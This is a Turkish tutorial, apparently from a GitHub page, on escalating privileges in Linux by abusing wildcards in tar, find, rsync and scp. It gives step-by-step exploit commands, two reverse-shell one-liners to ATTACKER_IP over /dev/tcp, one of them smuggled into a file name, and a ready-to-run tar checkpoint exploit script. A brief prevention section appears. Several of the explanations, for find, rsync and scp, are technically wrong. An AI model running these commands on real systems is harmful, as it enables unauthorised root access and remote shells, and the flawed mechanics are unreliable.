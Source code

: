 Wildcard yoluyla hak yükseltme (Wildcard Privilege Escalation), Linux sistemlerinde dosya sistemindeki joker karakterlerin yanlış veya tehlikeli şekilde kullanılması nedeniyle ortaya çıkan bir zafiyettir. Bu tür zafiyetler genellikle kötü yapılandırılmış **tar**, **rsync**, **find**, **scp** gibi komutların otomatik süreçlerde çalıştırılması durumunda meydana gelir. İşte bu zafiyetin detaylı teknik analizi ve nasıl exploit edileceğine dair bir rehber:

---

### **1. Wildcard (Joker Karakter) Nedir?**
- Joker karakterler, belirli bir dosya veya dosya grubu yerine kullanılan sembollerdir.
- **\***: Herhangi bir karakter dizisiyle eşleşir.
- **?**: Tek bir karakterle eşleşir.
- **[ ]**: Belirtilen karakter aralığıyla eşleşir.

**Örnek:**
```bash
ls *.txt  # Bulunduğunuz dizindeki tüm .txt dosyalarını listeler.
```

---

### **2. Wildcard Zafiyeti Nasıl Oluşur?**
Wildcard kullanımı sırasında bazı komutlar joker karakterlerle genişletilmiş girişleri işler. Örneğin:
- `tar` ile dosya arşivleme sırasında `--checkpoint-action` parametresi.
- `find` komutu ile dosya arama sırasında `-exec` parametresi.
- `rsync` ile dosya senkronizasyonunda wildcardların yanlış kullanımı.

---

### **3. Exploit Edilebilecek Durumlar**

#### **a. Tar Komutu ile Exploit**
`tar` komutunda wildcardlarla tehlikeli bir betik veya komut çalıştırılabilir. Örneğin:
```bash
tar -cf archive.tar *
```
Eğer dizinde `--checkpoint-action=exec=sh` gibi bir dosya adı varsa, bu dosya bir komut gibi çalıştırılır.

##### **Exploit Adımları:**
1. Çalıştırılan komutun wildcard kabul edip etmediğini kontrol edin:
   ```bash
   ps aux | grep tar
   ```
2. Tehlikeli dosyaları oluşturun:
   ```bash
   echo "echo 'root yetkisine ulaşıldı' > /tmp/rooted" > shell.sh
   chmod +x shell.sh
   touch "--checkpoint-action=exec=sh shell.sh"
   ```
3. Kullanıcı veya cron bu komutu çalıştırdığında, shell.sh tetiklenir ve komutunuz çalışır.

---

#### **b. Find Komutu ile Exploit**
`find` komutunun `-exec` parametresi ile wildcardları genişletmesi, komut enjeksiyonuna yol açabilir.

##### **Exploit Adımları:**
1. Çalıştırılan find komutunun parametrelerini gözlemleyin:
   ```bash
   ps aux | grep find
   ```
2. Joker karakterlerden faydalanarak tehlikeli dosyalar oluşturun:
   ```bash
   echo "/bin/bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1" > exploit.sh
   chmod +x exploit.sh
   touch "exploit.sh"
   ```
3. Bulunan dosya `find` ile işlenirken `exploit.sh` çalıştırılır.

---

#### **c. Rsync ile Exploit**
Rsync komutunda joker karakterler belirli parametrelerle birlikte kullanıldığında zararlı komutların tetiklenmesine yol açabilir.

##### **Exploit Adımları:**
1. Rsync çalıştıran bir cron veya işlem tespit edin.
   ```bash
   ps aux | grep rsync
   ```
2. Exploit dosyası oluşturun:
   ```bash
   touch 'file;bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1;'
   ```
3. Rsync çalıştırıldığında komut yürütülür.

---

#### **d. Scp ile Exploit**
SCP joker karakterleri genişletip bir dosya yerine komut çalıştırabilir.

##### **Exploit Adımları:**
1. Sistemde scp çalıştırılıyorsa şunları kontrol edin:
   ```bash
   ps aux | grep scp
   ```
2. Tehlikeli bir dosya adı oluşturun:
   ```bash
   touch "`echo /bin/bash > /tmp/shell.sh`"
   chmod +x /tmp/shell.sh
   ```
3. SCP ile çalıştırıldığında, exploit tetiklenir.

---

### **4. Önleme Yöntemleri**
1. **Wildcard kullanırken dikkatli olun**: Joker karakterlerin genişletilmesi engellenmeli.
2. **Komutlarda parametre kontrollerini sıkılaştırın**:
   - `--checkpoint-action` gibi parametreleri kısıtlayın.
3. **Yönetici haklarına sahip otomatik işlemleri izole edin**: Bu işlemler bir chroot ortamında çalıştırılmalı.
4. **Güvenli dosya izinleri kullanın**:
   - İşletim sistemi dizinlerini yalnızca root erişimine açık hale getirin.
5. **Kritik işlemler için tam dosya adları kullanın**:
   - Örneğin, `*.txt` yerine `file1.txt file2.txt` gibi.

---

### **5. Örnek Exploit Scripti**
Aşağıdaki script, wildcard zafiyetini tar komutu üzerinden kullanır.

```bash
#!/bin/bash

echo "[*] Wildcard Exploit ile Tar Zafiyeti Kullanımı"
echo "Exploit Dosyalarını Oluşturuyor..."

echo "echo 'Hacked by Wildcard Exploit' > /tmp/hacked" > payload.sh
chmod +x payload.sh

touch "--checkpoint-action=exec=sh payload.sh"
touch "--checkpoint=1"

echo "[+] Exploit Dosyaları Hazır! Şimdi tar komutunu çalıştırın."
echo "tar -cf archive.tar *"
```

---

### **6. Sonuç**
Wildcard zafiyetleri, genellikle güvenli olmayan otomasyon süreçleri ve kötü dosya adı kontrolünden kaynaklanır. Sistem yöneticileri joker karakter kullanımını minimize etmeli ve hassas işlemleri root yetkileri dışında çalıştırmalıdır. Bu zafiyetlerin farkında olmak, pen-test süreçlerinde kritik bir avantaj sağlar.
